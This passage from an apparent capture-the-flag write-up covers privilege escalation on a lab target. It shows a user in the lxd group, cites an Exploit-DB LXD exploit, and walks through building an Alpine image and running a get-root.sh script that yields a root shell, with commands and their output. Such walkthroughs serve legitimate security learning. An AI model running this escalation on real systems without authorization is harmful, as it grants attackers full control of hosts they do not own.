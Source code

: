 So half way done on the target. Now we want root access on the client. :)

## Privilage-Escalation

For my Privilage-Escalation i exploit the LXD-Vulnerability on the target. 

```sh
namelessone@anonymous:~$ id
id
uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
The command "id" shows me that the user is in the LXD-Group. LXD is a container software manager. Its like Doker. 

There is a Vulnerability of the LXD-Container:

[Exploit-DB-LXD-Vulnerability](https://www.exploit-db.com/exploits/46978)

For the Exploitation i followed the steps in the Command section of the file: 
```sh
# Step 1: Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine [Attacker Machine]
# Step 2: Build alpine => bash build-alpine (as root user) [Attacker Machine]
# Step 3: Run this script and you will get root [Victim Machine]
# Step 4: Once inside the container, navigate to /mnt/root to see all resources from the host machine
```

When this steps are done we can now run the script on the target:

```sh
namelessone@anonymous:~$ ./get-root.sh -f alpine-v3.12-x86_64-20200927_2146.tar.gz
<root.sh -f alpine-v3.12-x86_64-20200927_2146.tar.gz
Image imported with fingerprint: e35751259917ef3b79e8aac7a30a93178e6da525f5b4cf76bef49452d5d09997
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| alpine | e35751259917 | no     | alpine v3.12 (20200927_21:46) | x86_64 | 3.05MB | Sep 27, 2020 at 8:40pm (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc
```

Let's check if we are root with the command "id": 
```sh
id
uid=0(root) gid=0(root)
```
